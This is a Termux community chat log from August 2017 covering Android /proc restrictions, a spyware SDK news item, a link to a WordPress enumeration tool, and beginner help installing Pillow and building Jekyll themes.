2017-08-23 16:02:20	gitter	(Auxilus) WARNING: apt does not have a stable CLI interface. Use with caution in scripts.

2017-08-23 16:02:20	gitter	(Auxilus) [full message: https://gitter.im/termux/termux?at=599ddf4c614889d4757d02d4]

2017-08-23 16:02:21	gitter	(cocodevienne) Oh right sorry,phone was going a bit mad.

2017-08-23 16:02:45	gitter	(cocodevienne) What does that do?

2017-08-23 16:02:50	gitter	(cocodevienne) @Auxilus

2017-08-23 16:03:09	zj1995	classic case of malvertising

2017-08-23 16:03:15	zj1995	also "The type of plugin that could be delivered was limited by the Android permission system"

2017-08-23 16:03:37	gitter	(Auxilus) What?

2017-08-23 16:03:52	gitter	(Auxilus) These are your packages.. Ri8?

2017-08-23 16:04:22	gitter	(Auxilus) @cocodevienne id like to add package...

2017-08-23 16:04:33	gitter	(cocodevienne) Yep, they are.

2017-08-23 16:04:36	gitter	(cocodevienne) Which one?

2017-08-23 16:04:42	gitter	(cocodevienne) Source please?

2017-08-23 16:04:46	gitter	(cocodevienne) @Auxilus

2017-08-23 16:04:55	gitter	(Auxilus) Its a script for WordPress enumeration

2017-08-23 16:05:23	gitter	(Auxilus) Its python script

2017-08-23 16:05:30	gitter	(Auxilus) Called D-TECT

2017-08-23 16:05:42	gitter	(cocodevienne) Can we use that on Termux?

2017-08-23 16:06:08	gitter	(Auxilus) Yup..

2017-08-23 16:07:02	gitter	(Auxilus) Its on git.. Clone it and build deb..

2017-08-23 16:16:12	u0_a93	leverages Android's dalvik.system.DexClassLoader and reflection to load the specified class from the JAR file

2017-08-23 16:19:22	u0_a93	data collected through the PhoneStateListener

2017-08-23 16:20:16	u0_a93	500 apps with >100m downloads

2017-08-23 16:22:40	u0_a93	Lookout isn't publishing the list of the affected 500 apps because researchers don't believe the developers knew of the spyware capabilities included in the SDK.

2017-08-23 16:22:45	zj1995	this is where apple makes sense with its policies that disallow apps that can execute code not originally included as part of it

2017-08-23 16:23:29	u0_a93	zh1995: Can you afford Apple?

2017-08-23 16:23:34	zj1995	yes

2017-08-23 16:24:59	u0_a93	good for you

2017-08-23 16:25:32	zj1995	even then i won't use an iphone because it's way too restrictive

2017-08-23 16:25:35	rods-tab3	thats why termux got kicked off the google store

2017-08-23 16:25:52	zj1995	wait it did?

2017-08-23 16:26:07	u0_a93	Inside the Stealth Destroyer USS Zumwalt, the Warship That Runs on Linux

2017-08-23 16:26:33	u0_a93	http://www.popularmechanics.com/military/weapons/news/a27804/stealth-destroyer-uss-zumwalt-linux/

2017-08-23 16:27:43	rods-tab3	google store has same policy re installing forign apps

2017-08-23 16:28:50	rods-tab3	a few ? weeks ago; termux taken off the store

2017-08-23 16:29:38	zj1995	oh i never noticed that

2017-08-23 16:30:11	u0_a93	rods-tab3: That's incorrect. Termux got pulled from Google Play "because it violates the payments policy". https://plus.google.com/s/Termux%20app%20pulled/top

2017-08-23 16:30:31	zj1995	tbh it's gotten a lot less useful since android n, which restricted /proc access

2017-08-23 16:31:04	zj1995	i used to use it and htop to see which app used cpu cycles and therefore battery life

2017-08-23 16:32:22	gitter	(cocodevienne) Send me a link!!

2017-08-23 16:32:25	gitter	(cocodevienne) @Auxilus

2017-08-23 16:33:00	gitter	(Auxilus) Sure wait...

2017-08-23 16:33:30	gitter	(Auxilus) Here >  https://github.com/shawarkhanethicalhacker/D-TECT

2017-08-23 16:43:01	rods-tab3	zj1995 - andro n more restrictive than 6 ?  how so ?

2017-08-23 16:46:26	fornwall	rods-tab3: android n restricted /proc to only show processes of the same pid as the app accessing it

2017-08-23 16:47:02	fornwall	rods-tab3: that is, only termux-spawned processes are visible in /proc when accessed inside termux, not system processes or processes belonging to other apps

2017-08-23 16:52:02	zj1995	android o supposedly takes that further by hiding /proc altogether

2017-08-23 16:52:35	zj1995	this breaks more than just things like ps/top/htop

2017-08-23 16:53:22	u0_a93	oreo

2017-08-23 17:01:50	rods-tab3	what about native android apps like 'OS monitor'  -- are they restricted also ?

2017-08-23 17:03:19	zj1995	depends on how they get cpu/ram usage information

2017-08-23 17:03:41	zj1995	android already exposes ram usage in developer options

2017-08-23 17:05:27	fornwall	right, the /proc access restrictions affects everyone. you may get some information in other means, but apps like OS monitor won't likely work

2017-08-23 17:05:38	fornwall	"Due to Android 7.0's security enhancement, OS Monitor won't support Android 7.0 and following version"

2017-08-23 17:06:43	fornwall	so google is really locking down android. pity for those wanting to access linux functionality, but makes sense for the majority of users I guess

2017-08-23 17:06:51	zj1995	fx (the file explorer) still shows cpu/ram/storage usage on android 7

2017-08-23 17:07:18	zj1995	don't have an android o installation to test that but if anyone is willing to see if it still works that would be nice

2017-08-23 17:07:36	fornwall	zj1995: usage per-app or total system usage?

2017-08-23 17:07:44	zj1995	total system usage

2017-08-23 17:08:46	fornwall	right, total system usage is exposed through an official android api (the ActivityManager.MemoryInfo class) so don't need direct /proc access

2017-08-23 17:09:05	fornwall	per-app usage is not, AFAIK

2017-08-23 17:10:30	zj1995	android's /proc restriction is so widely enforced to the point that the setting in developer options to show cpu usage only shows systemui as the top process

2017-08-23 17:10:51	zj1995	iirc 7.0.1 removed that from developer options altogether

2017-08-23 17:11:08	fornwall	ah, funny one :)

2017-08-23 17:11:31	zj1995	surpringly adb shell can still read /proc in 7.0.1

2017-08-23 17:11:51	zj1995	which also means top works from there

2017-08-23 17:11:53	fornwall	interesting. how about android o?

2017-08-23 17:12:03	zj1995	not sure

2017-08-23 17:17:32	gitter	(cocodevienne) You should build it and host it yourself, maintaining mine is lots of work as is.

2017-08-23 17:17:36	gitter	(cocodevienne) @Auxilus

2017-08-23 17:17:58	gitter	(cocodevienne) Besides, I have a company to run.

2017-08-23 17:18:00	gitter	(cocodevienne) ;)

2017-08-23 17:18:08	gitter	(cocodevienne) No offence dude.

2017-08-23 17:20:38	rods-tab3	so whats a girl to do if she wants to find whats using all the cpu/mem in andro 7++ ?

2017-08-23 17:22:30	zj1995	cpu - look at cpu time for each app under battery statistics, memory - look at running processes in developer options

2017-08-23 17:22:55	zj1995	it's not as convenient as (h)top but it's at least something

2017-08-23 18:04:48	u0_a93	Is it possible to install adb in Termux?

2017-08-23 18:08:14	u0_a93	$ adb

2017-08-23 18:08:14	u0_a93	No command 'adb' found, did you mean:

2017-08-23 18:08:14	u0_a93	 Command 'ab' from package 'apache2'

2017-08-23 18:18:08	u0_a93	Android adb has interesting results for adb apps

2017-08-23 18:18:21	u0_a93	on Android

2017-08-23 18:24:45	u0_a93	@fornwall Will it be possible to launch Termux inside an adb shell on Android?

2017-08-23 18:35:40	guest093	rods-tab3: self-modifiable code -)

2017-08-23 18:41:29	guest093	https://duckduckgo.com/?q=ios+store+malicious+software

2017-08-23 18:42:44	guest093	http://www.computerworld.com/article/2984689/mobile-security/apple-ios-app-store-malware-xcodeghost-itbwcw.html

2017-08-23 18:43:33	guest093	Apple iOS App Store riddled with malware -- XcodeGhost haunts...

2017-08-23 18:45:12	guest093	@fornwall Specifically Termux in an adb shell instead of bash.

2017-08-23 18:46:42	zj1995	i feel like such an app wouldn't be allowed on the play store at all

2017-08-23 18:46:58	zj1995	users would need to sideload it

2017-08-23 18:50:46	guest093	such an app zj1995: Can you elaborate on "such an app"? 

2017-08-23 18:52:47	zj1995	i obviously have no idea what the guidelines for apps that can be published on google play are, but i'm just not sure if an app that exposes such functions can be allowed

2017-08-23 18:53:17	guest093	@fornwall If top and htop are the only affected apps, then possibly modifying these two to lauch in an adb shell might resolve unreadble /proc issue in oreo

2017-08-23 18:53:20	guest093	?

2017-08-23 18:54:07	zj1995	the adb user has permissions that go beyond regular apps and completely bypasses android's permission system

2017-08-23 18:55:02	guest093	zj1995: Some of the limitations in Androud are ludecrous, complete insanity for nearly any PC user.

2017-08-23 18:55:17	zj1995	i agree

2017-08-23 18:55:34	guest093	lol

2017-08-23 18:55:41	zj1995	i don't like how google is dumbing down android for more knowledgeable users

2017-08-23 18:56:15	zj1995	they're making it less and less usable without root

2017-08-23 18:57:20	guest093	one the other hand there are more non PC users worldwide than PC users. 

2017-08-23 18:58:49	guest093	zj1995: I agree that there should be an official Android release, "Proceed at your own risk `su`, `sudo`!"

2017-08-23 18:58:59	guest093	with source code

2017-08-23 18:59:19	zj1995	sadly the days of that have long passed

2017-08-23 18:59:33	zj1995	i feel like what drew me to android in the first place is slowly getting eroded

2017-08-23 19:01:13	guest093	This is a terrible choice for future Android development by not giving the user the opportunity to proceed at their discretion to open root ability for the Android users.

2017-08-23 19:02:41	guest093	terrible choice *terrible choice by Google (Alphabet) for

2017-08-23 19:04:17	guest093	zj1995: After decades of use, I am sorry to know that I am allergic to desktops and similar. 

2017-08-23 19:10:58	g093	https://github.com/android/platform_system_core/tree/master/adb

2017-08-23 19:18:29	g093	@fornwall 

2017-08-23 19:18:34	g093	 _____

2017-08-23 19:18:34	g093	( wow )

2017-08-23 19:18:34	g093	 -----

2017-08-23 19:18:34	g093	        o   ^__^

2017-08-23 19:18:34	g093	         o  (oo)\_______

2017-08-23 19:18:34	g093	            (__)\       )\/\

2017-08-23 19:18:34	g093	                ||----w |

2017-08-23 19:18:34	g093	                ||     ||

2017-08-23 19:19:15	g093	aapt/stable,now 7.1.2.33-1 aarch64 [installed]

2017-08-23 19:22:55	g093	hypnotic, mesmerizing and more hypnosis watching aapt and friends build https://github.com/sdrausty/buildAPKs

2017-08-23 19:23:47	g093	btw cowsay at https://github.com/sdrausty/buildAPKsApps/tree/master/Cowsay-android built in Termux on Android.

2017-08-23 19:26:30	g093	THANK YOU

2017-08-23 19:39:02	gitter	(sdrausty) `cowsay`'s output looks great in weechat on Termux. It looks like crap in gitter in Chrome on Android. 🤔

2017-08-23 19:40:56	gitter	(sdrausty) Termux. *Termux 💪 on an Android smartphone.

2017-08-23 19:43:03	g093	It also looks matrix-like in the newly built in Termux on a smartphone deployed step*.apk

2017-08-23 19:43:40	g093	deployed *just deployed

2017-08-23 19:45:58	rods-tab3	oh, thats a cow ... mooooooo

2017-08-23 19:47:19	g093	 ________________________________

2017-08-23 19:47:19	g093	( Do you like having Termux💪on  )

2017-08-23 19:47:19	g093	( your Android 5-6.* smartphone? )

2017-08-23 19:47:19	g093	 --------------------------------

2017-08-23 19:47:19	g093	        o   ^__^

2017-08-23 19:47:19	g093	         o  (oo)\_______

2017-08-23 19:47:19	g093	            (__)\       )\/\

2017-08-23 19:47:19	g093	                ||----w |

2017-08-23 19:47:19	g093	                ||     ||

2017-08-23 19:48:28	g093	Output was transferred via Android clipboard feature.

2017-08-23 19:50:18	g093	Output was transferred via Android clipboard feature into weechat on Termux.

2017-08-23 19:50:24	rods-tab3	some of us do not have a phone But a real computer - an eight inch android tablet

2017-08-23 19:50:32	g093	cool

2017-08-23 19:51:31	g093	i wish i could afford a nice big screen tablet, eight inches rods-tab3: nice

2017-08-23 19:53:12	g093	afford *as in tablet +iOS goodies, etc

2017-08-23 19:53:14	g093	.

2017-08-23 20:09:04	g093	Are there any open souece linux emulators for ios?

2017-08-23 20:09:41	rod-yolo	that tablet was 109 usd but POS since lenovo can not get andro to run in 1 GB ram

2017-08-23 20:09:56	g093	open souece linux *open source

2017-08-23 20:11:21	rod-yolo	ios is @nix

2017-08-23 20:15:43	g093	rods-tab3: @least one (1) of my Android smartphones has eight (8) processors @quite a bit of RAM (DRAM, etc.)

2017-08-23 20:18:40	g093	proccessors @quite a bit of *proccessors & @quit a bit of

2017-08-23 20:56:57	rods-tab3	yea they have phones w 8 core cpu / 8 GB ram ...

2017-08-23 20:58:34	rods-tab3	i use a BT keyboard/mouse w this tablet

2017-08-23 21:22:11	g093	rods-tab3: Take a transit stop "linux in you pocket" Termux example, you probably would not want to be using either tablet, or keyboard with/without mouse; But what many people use at a transit stop, a smartphone. Please do not limit this example only to mass transit stops or stations.

2017-08-23 21:38:54	rods-tab3	i sometimes use phone on Amtrak - does that count ?  ::--))

2017-08-23 21:39:13	g093	lol

2017-08-23 21:39:32	g093	Android Oreo is wreaking havoc with people’s... http://bgr.com/2017/08/23/android-oreo-bluetooth-problems/

2017-08-23 21:40:26	rods-tab3	they just announced O 8 -- how can people have it already ?

2017-08-23 21:41:37	live_the_dream	image is uploaded for google devices like pixel phones

2017-08-23 21:41:42	live_the_dream	same time

2017-08-23 21:47:42	rods-tab3	best to wait for .1 version of anything  http://bgr.com/2017/08/22/android-8-0-oreo-update-download-pixel-nexus/

2017-08-23 21:48:32	rods-tab3	after all termux up to version 53++

2017-08-23 21:50:05	live_the_dream	i wish termux used mlterm as base but its not anywhere close in terms od android integration than what termux is based on. it has sixel zupport though

2017-08-23 21:50:41	live_the_dream	but yeah you can load mlterm in android

2017-08-23 21:52:26	g093	flashing oreo today https://developer.android.com/about/versions/oreo/download.html

2017-08-23 21:52:36	g093	oreo *oreos

2017-08-23 21:53:14	live_the_dream	fornwall: think you could get mounting windows shared in termux-api? there are examples available for implementing it?

2017-08-23 21:53:16	rods-tab3	Good luck;  it was nice knowing you.

2017-08-23 22:48:35	gitter	(themastersunil) aarch64-linux-android-clang -Wno-unused-result -Wsign-compare -Wunreachable-code -DNDEBUG -g -fwrapv -O3 -Wall -Wstrict-prototypes -Os -Os -fPIC -DHAVE_LIBJPEG -DHAVE_OPENJPEG -DHAVE_LIBZ -DHAVE_LIBTIFF -DPILLOW_VERSION="4.2.1" -I/data/data/com.termux/files/usr/include/openjpeg-2.1 -I/data/data/com.termux/files/usr/tmp/pip-build-436hshbe/Pillow/libImaging -I/data/data/com.termux/files/usr/include -I/data/data/com.termux/files

2017-08-23 22:48:36	gitter	_imaging.c -o build/temp.linux-aarch64-3.6/_imaging.o

2017-08-23 22:48:36	gitter	(themastersunil)     _imaging.c:74:10: fatal error: 'Python.h' file not found

2017-08-23 22:48:36	gitter	(themastersunil)     #include "Python.h"

2017-08-23 22:48:36	gitter	(themastersunil) [full message: https://gitter.im/termux/termux?at=599e3e8476a757f808d8aa36]

2017-08-23 22:49:06	gitter	(themastersunil) Please help me.. 😥

2017-08-23 23:07:53	gitter	(Grimler91) @themastersunil There are many many people who have had that error before at github. Just search for the error and you'll find the solution. Or google it

2017-08-23 23:48:11	g093	or duckduckgo.com it  dogpile.com

2017-08-23 23:50:55	g093	you might want to add site to your query, i.e. https://duckduckgo.com/?q=Python.h+site%3Agithub.com

2017-08-23 23:58:09	g093	you might want *you will probably want 

2017-08-24 03:41:04	live_the_dream	oh btw got openjdk working with aarch64

2017-08-24 04:29:20	frumpylava	Weird question. Does anyone know if there is a thermal printer that works with termux? Ideally I am looking for something like the gameboy printer.

2017-08-24 07:10:13	gitter	(SatryoBagus_P_twitter) please help me ```

2017-08-24 07:10:13	gitter	(SatryoBagus_P_twitter) proot warning : can't chdir ("/root/.")in the guest rootfs : no such file or directory

2017-08-24 07:10:13	gitter	(SatryoBagus_P_twitter) proot info: default working directory is now "/"

2017-08-24 07:10:13	gitter	(SatryoBagus_P_twitter) [full message: https://gitter.im/termux/termux?at=599eb41466c1c7c477d7885a]

2017-08-24 07:12:26	gitter	(SatryoBagus_P_twitter) @themastersunil gan punya gua error di bagian saat start ubuntu

2017-08-24 07:13:04	gitter	(its-pointless) @vishalbiswas  https://github.com/its-pointless/termux-packages/tree/openjdk-wip using arm64 instead of aarch64 makes java build

2017-08-24 07:22:06	gitter	(SatryoBagus_P_twitter) @Neo-Oli please help me ```

2017-08-24 07:22:06	gitter	(SatryoBagus_P_twitter) proot warning : can't chdir ("/root/.")in the guest rootfs : no such file or directory

2017-08-24 07:22:06	gitter	(SatryoBagus_P_twitter) proot info: default working directory is now "/"

2017-08-24 07:22:06	gitter	(SatryoBagus_P_twitter) [full message: https://gitter.im/termux/termux?at=599eb6debc46472974b92d95]

2017-08-24 08:03:31	gitter	(Sprite140) can someone please help me install PIL? Everytime I try to work with it I get this message.

2017-08-24 08:03:31	gitter	(Sprite140)

2017-08-24 08:03:31	gitter	(Sprite140) $ python2 main.py

2017-08-24 08:03:31	gitter	(Sprite140) [full message: https://gitter.im/termux/termux?at=599ec093ee5c9a4c5ff4afa1]

2017-08-24 09:17:39	gitter	(cocodevienne) Uhm hoow about running `pip install pillow`?

2017-08-24 09:17:46	gitter	(cocodevienne) @Sprite140

2017-08-24 09:18:06	gitter	(cocodevienne) Or in your case `pip2`?

2017-08-24 09:22:30	gitter	(Sprite140) @cocodevienne I tried to run pip install pillow and it says

2017-08-24 09:23:07	gitter	(Sprite140) @cocodevienne Requirement already satisfied: pillow in /data/data/com.termux/files/usr/lib/python3.6/site-packages

2017-08-24 09:23:07	gitter	(Sprite140) Requirement already satisfied: olefile in /data/data/com.termux/files/usr/lib/python3.6/site-packages (from pillow)

2017-08-24 09:24:25	gitter	(Sprite140)  now it's saying The headers or library files could not be found for zlib,

2017-08-24 09:24:25	gitter	(Sprite140)     a required dependency when compiling Pillow from source.

2017-08-24 09:24:32	gitter	(Sprite140) when I do pip2 install pillow

2017-08-24 09:26:20	gitter	(cocodevienne) Read the code up there which you posted and read what you installed.

2017-08-24 09:27:04	gitter	(cocodevienne) You wrote from `PIL import Image` not  `from pillow import Image`.

2017-08-24 09:27:17	gitter	(cocodevienne) Try that and then tell me what happens.

2017-08-24 09:27:53	gitter	(Sprite140) it just says from pillow import Image

2017-08-24 09:27:53	gitter	(Sprite140) No command 'from' found, did you mean:

2017-08-24 09:27:53	gitter	(Sprite140)  Command 'frob' from package 'frobtads'

2017-08-24 09:28:08	gitter	(cocodevienne) Inside the Python script!!

2017-08-24 09:28:13	gitter	(cocodevienne) Not from the cmd.

2017-08-24 09:28:21	gitter	(cocodevienne) Dude, come on.

2017-08-24 09:29:00	gitter	(Sprite140) what do you mean? I typed that into the python script

2017-08-24 09:29:03	gitter	(Sprite140) lol I'm a girl

2017-08-24 09:29:11	gitter	(Sprite140) sorry I'm new to this.

2017-08-24 09:30:29	gitter	(Sprite140) I typed "$ from pillow import Image"

2017-08-24 09:30:36	gitter	(Sprite140) then it said

2017-08-24 09:30:57	gitter	(cocodevienne) Ok slowly, go and edit the Python script.

2017-08-24 09:31:06	gitter	(cocodevienne) Then write there from pillow import Image.

2017-08-24 09:31:25	gitter	(cocodevienne) Sorry for being a tad annoyed. @Sprite140

2017-08-24 09:31:37	gitter	(Sprite140) it's okay. I just started last week.

2017-08-24 09:31:46	gitter	(Sprite140) when you say edit the python script what do you mean?

2017-08-24 09:32:04	gitter	(cocodevienne) Just put that line in, run it and tell me what you see.

2017-08-24 09:32:12	gitter	(cocodevienne) Do you have Vim installed?

2017-08-24 09:33:00	gitter	(Sprite140) I believe vim is installed

2017-08-24 09:33:23	gitter	(Sprite140) so type in .. "from pillow import Image"  ?

2017-08-24 09:33:48	gitter	(Sprite140) how do I check to see if it's installed?

2017-08-24 09:34:00	gitter	(cocodevienne) No even better

2017-08-24 09:34:13	gitter	(cocodevienne) Type python2. You should see a console.

2017-08-24 09:34:29	gitter	(cocodevienne) Type there `import pillow`.

2017-08-24 09:34:40	gitter	(cocodevienne) Tell me what that gives you.

2017-08-24 09:35:08	gitter	(Sprite140) it says

2017-08-24 09:35:10	gitter	(Sprite140) Traceback (most recent call last):

2017-08-24 09:35:10	gitter	(Sprite140)   File "<stdin>", line 1, in <module>

2017-08-24 09:35:10	gitter	(Sprite140) ImportError: No module named pillow

2017-08-24 09:36:31	gitter	(Auxilus) Seems like pillow isn't installed

2017-08-24 09:36:49	gitter	(cocodevienne) Can you run `pip2 install pillow`?

2017-08-24 09:36:52	gitter	(cocodevienne) @Sprite140

2017-08-24 09:37:32	gitter	(Sprite140) pip2 install Pillow

2017-08-24 09:37:33	gitter	(Sprite140)                ^

2017-08-24 09:37:33	gitter	(Sprite140) SyntaxError: invalid syntax

2017-08-24 09:37:33	gitter	(Sprite140)

2017-08-24 09:37:33	gitter	(cocodevienne) Lemme deal with it! Btw, I need to make some changes anyway, so I'll host your package on my repo. But please build it yrself and test it. @Auxilus

2017-08-24 09:37:55	gitter	(cocodevienne) Type `exit()` and then run the command.

2017-08-24 09:37:59	gitter	(cocodevienne) @Sprite140

2017-08-24 09:38:54	gitter	(Sprite140) says

2017-08-24 09:38:57	gitter	(Sprite140) The headers or library files could not be found for zlib,

2017-08-24 09:38:57	gitter	(Sprite140)     a required dependency when compiling Pillow from source.

2017-08-24 09:39:05	gitter	(Sprite140) then a lot of red

2017-08-24 09:39:06	gitter	(Sprite140) saying

2017-08-24 09:39:11	gitter	(cocodevienne) Ok hang on.

2017-08-24 09:39:21	gitter	(Sprite140) Command "/data/data/com.termux/files/usr/bin/python2 -u -c "import setuptools, tokenize;__file__='/data/data/com.termux/files/usr/tmp/pip-build-qyN_cf/pillow/setup.py';f=getattr(tokenize, 'open', open)(__file__);code=f.read().replace('\r\n', '\n');f.close();exec(compile(code, __file__, 'exec'))" install --record /data/data/com.termux/files/usr/tmp/pip-7BqdXl-record/install-record.txt --single-version-externally-managed --compile" 

2017-08-24 09:39:21	gitter	/data/data/com.termux/files/usr/tmp/pip-build-qyN_cf/pillow/

2017-08-24 09:39:40	frumpylava	Pillow is a bit weird to install because of the external zlib.

2017-08-24 09:39:43	frumpylava	try this:

2017-08-24 09:39:51	frumpylava	pkg install libjpeg-turbo-dev libjpeg-turbo-progs; LDFLAGS="-L/system/lib/" pip2 install Pillow

2017-08-24 09:41:18	gitter	(Auxilus) @cocodevienne okay

2017-08-24 09:41:38	gitter	(Sprite140)  says successfully installed Pillow-4.2.1

2017-08-24 09:41:55	gitter	(Sprite140) if pillow is installed does that mean that PIL should be able to work now?

2017-08-24 09:42:08	gitter	(cocodevienne) I found out whats going wrong. Install `pillow` as @frumpylava suggested and then make a Python file ending in `.py` by running `touch test.py` and edit it with `Vim`. Execute `apt install vim`.

2017-08-24 09:42:12	gitter	(cocodevienne) @Sprite140

2017-08-24 09:42:26	gitter	(cocodevienne) Then type `vim test.py`.

2017-08-24 09:42:43	gitter	(cocodevienne) Do that and tell me then what happens.

2017-08-24 09:43:12	gitter	(cocodevienne) You should see a black window with lost of tildes on the left side of the screen.

2017-08-24 09:44:14	gitter	(cocodevienne) If that is the case, type `i` and type this in the first line: `import PIL` and in the second type this `from PIL import Image`.

2017-08-24 09:44:55	gitter	(cocodevienne) Save it by pressing vol up + e and typing `:wq` and run it by typing python2 test.py.

2017-08-24 09:45:11	gitter	(cocodevienne) If there is no output then all is well.

2017-08-24 09:45:11	gitter	(cocodevienne) @Sprite140

2017-08-24 09:46:10	gitter	(Sprite140) I should put touch test.py in the python script or just the command?

2017-08-24 09:46:45	gitter	(Sprite140) nvm got it

2017-08-24 09:46:46	gitter	(Auxilus) Command

2017-08-24 09:46:49	gitter	(cocodevienne) Just the command.

2017-08-24 09:47:11	gitter	(cocodevienne) If you want to check what happened just type `ls`.

2017-08-24 09:48:24	gitter	(Sprite140) yes nothing

2017-08-24 09:48:34	gitter	(cocodevienne) So it worked?

2017-08-24 09:48:40	gitter	(cocodevienne) @Sprite140

2017-08-24 09:49:36	gitter	(cocodevienne) Btw, @frumpylava. Fromwhat you told us here you are quite familiar with Jekyll?

2017-08-24 09:49:45	gitter	(cocodevienne) I have a question for you.

2017-08-24 09:50:13	gitter	(cocodevienne) How could  I make a jekyll theme from the themes located at getmdl.io?

2017-08-24 09:50:26	gitter	(cocodevienne) Been struggling all morning.

2017-08-24 09:50:36	gitter	(Sprite140) python2 main.py

2017-08-24 09:50:36	gitter	(Sprite140) Traceback (most recent call last):

2017-08-24 09:50:36	gitter	(Sprite140)   File "main.py", line 4, in <module>

2017-08-24 09:50:36	gitter	(Sprite140) [full message: https://gitter.im/termux/termux?at=599ed9abba0f0f6e38db1f26]

2017-08-24 09:50:52	gitter	(Sprite140) now my situation is saying no module named requests -_-

2017-08-24 09:51:07	gitter	(Sprite140) what TF is requests?

2017-08-24 09:51:07	gitter	(cocodevienne) Just run `pip2 install requests`

2017-08-24 09:51:27	gitter	(cocodevienne) Its a library to handle http requests.

2017-08-24 09:51:35	gitter	(cocodevienne) very useful actually.

2017-08-24 09:51:46	gitter	(cocodevienne) How old are you btw?

2017-08-24 09:51:49	gitter	(cocodevienne) @Sprite140

2017-08-24 09:52:55	gitter	(Sprite140) I'm 21

2017-08-24 09:53:09	gitter	(Sprite140) and I should run this in command or script?

2017-08-24 09:53:18	gitter	(cocodevienne) The pip command?

2017-08-24 09:53:27	gitter	(cocodevienne) in the shell eg as a command.

2017-08-24 09:55:02	gitter	(Sprite140) alright great I got it. thank you guys so much :)

2017-08-24 09:55:17	gitter	(cocodevienne) No problem.

2017-08-24 09:55:32	gitter	(cocodevienne) What are you up to anyway?:D

2017-08-24 09:57:23	frumpylava	@cocodevienne You should probably start with the "minima" theme, the defaul jekyll theme. It's really just a bunch of html files with some liquid syntax intersparsed. There you should be able to include that mdl css and js somewhere. You can then change the html to suit the need of the mdl stylesheet.

2017-08-24 09:58:32	gitter	(cocodevienne) So you're saying I should just start from the jekyll side and not from the MDl side?

2017-08-24 09:58:38	gitter	(cocodevienne) @frumpylava

2017-08-24 09:58:46	gitter	(cocodevienne) Wow that is complicated.

2017-08-24 09:59:15	gitter	(cocodevienne) I mean I know my way around HTML and CSS but even I was struggling today with the simple blog theme.

2017-08-24 09:59:32	gitter	(cocodevienne) I mean which fool makes classes for images just to include them??

2017-08-24 09:59:39	gitter	(cocodevienne) That is soo ard to maintain

2017-08-24 09:59:49	gitter	(cocodevienne) @frumpylava

2017-08-24 10:00:04	frumpylava	what do you mean classes for images?

2017-08-24 10:00:38	gitter	(cocodevienne) https://github.com/cocodevienne/cocodevienne.github.io/blob/master/stylesheets/styles.css

2017-08-24 10:00:49	gitter	(cocodevienne) and do strg + f and type jpg

2017-08-24 10:00:53	gitter	(cocodevienne) @frumpylava

2017-08-24 10:00:58	gitter	(cocodevienne) then youll know

2017-08-24 10:01:20	gitter	(cocodevienne) they actually had this for the source code of the original i just modified it for myself.

2017-08-24 10:01:20	gitter	(Auxilus) I also gave jekyll a shot, but it ain't working well with me :worried:

2017-08-24 10:01:27	gitter	(cocodevienne) why?

2017-08-24 10:01:41	gitter	(cocodevienne) I can recommend the so simple theme

2017-08-24 10:01:59	gitter	(cocodevienne) you have to play around wih it to get the hang of it

2017-08-24 10:02:07	gitter	(Auxilus) I found a bit confusing, ik its easy but somehow i did

2017-08-24 10:02:11	gitter	(cocodevienne) I am using jekyll for my company

2017-08-24 10:02:17	gitter	(cocodevienne) so damn smooth

2017-08-24 10:02:26	gitter	(Auxilus) Company?

2017-08-24 10:02:36	gitter	(cocodevienne) https://github.com/mmistakes/so-simple-theme

2017-08-24 10:02:39	gitter	(cocodevienne) yep

2017-08-24 10:02:49	gitter	(cocodevienne) http://voxbyletigre.github.io

2017-08-24 10:02:54	frumpylava	@cocodevienne that does seem like a complicated css.

2017-08-24 10:03:01	gitter	(cocodevienne) le tigre = me

2017-08-24 10:03:16	gitter	(cocodevienne) yep well wrestling with that bs all morning

2017-08-24 10:03:33	gitter	(cocodevienne) i mean its totally worth it but still

2017-08-24 10:03:33	gitter	(cocodevienne) @frumpylava

2017-08-24 10:03:39	gitter	(Auxilus) Tigre = tiger?

2017-08-24 10:03:44	gitter	(cocodevienne) @Auxilus

2017-08-24 10:03:46	gitter	(cocodevienne) yes

2017-08-24 10:04:02	gitter	(cocodevienne) my nickname

2017-08-24 10:04:09	gitter	(cocodevienne) my friends used it and then i was like

2017-08-24 10:04:12	gitter	(Auxilus) Cool site bro!

2017-08-24 10:04:13	gitter	(cocodevienne) yep ill use it

2017-08-24 10:04:22	gitter	(cocodevienne) crdits to jekyll

2017-08-24 10:04:29	gitter	(cocodevienne) and my designing skills I guess

2017-08-24 10:04:33	gitter	(cocodevienne) lol skills

2017-08-24 10:05:04	gitter	(Auxilus) Shit, imma learn jekyll

2017-08-24 10:05:31	gitter	(cocodevienne) I did say that it is worht it!:)

2017-08-24 10:05:33	gitter	(cocodevienne) I can help you if you like.

2017-08-24 10:05:46	gitter	(cocodevienne) Start with the theme I linked above

2017-08-24 10:05:52	gitter	(cocodevienne) Its simple enough

2017-08-24 10:05:59	gitter	(cocodevienne) @Auxilus

2017-08-24 10:06:08	gitter	(Auxilus) Sure ill go with it..

2017-08-24 10:06:13	gitter	(cocodevienne) ok

2017-08-24 10:10:56	frumpylava	"So-simple-theme" seems good for when you want to get a site up as fast as possible. If you're a webdeveloper and are trying to build your own website with your own design, I'd start with the "Minima" theme, which is fairly easy to understand. And if you don't like "themes" you can just copy the Minima theme files to your jekyll root directory and edit it directly. It's very easy to understand how it all

2017-08-24 10:10:57	frumpylava	works that way, as you don't need to interact with ruby at all this way. No need to make your own ruby gem for your own theme.

2017-08-24 10:12:23	gitter	(cocodevienne) Hm seems a good way to approach it. No because I want to jekyllize the blog theme from the mdl site. So that I can make an easy blog and a maintainable one.

2017-08-24 10:18:01	gitter	(cocodevienne) Btw @Auxilus I recommend doing it on your PC. Doing it from Termux is bit demanding because of screen size etc.

2017-08-24 10:19:37	frumpylava	@cocodevienne This is just a form factor issue. Nothing in Termux prevents doing jekyll. If he has an android tablet and a keyboard Termux can do it just as well.

2017-08-24 10:29:18	gitter	(cocodevienne) Just saying what is easier:)

2017-08-24 10:30:36	g093	https://pages.github.com

2017-08-24 10:33:37	g093	i find it's easiest to have your websites in your pocket @cocodevienne

2017-08-24 10:34:12	gitter	(cocodevienne) k

2017-08-24 10:43:55	g093	The virtual keyboard is the lightest of all, and with multifinger typing...

2017-08-24 10:45:10	g093	lightening many fingers speed is stimulating, to state least of all.

2017-08-24 10:48:33	g093	will we ever forget that 🐁 mouse, the one matrix transformed into a tap in a little brick 🏠 house.

2017-08-24 10:48:48	g093	tap *tap tap

2017-08-24 10:51:12	g093	onscreen garbage

2017-08-24 10:51:36	g093	 in weechat aarch64 on Termux v53 on OS 6.0.1

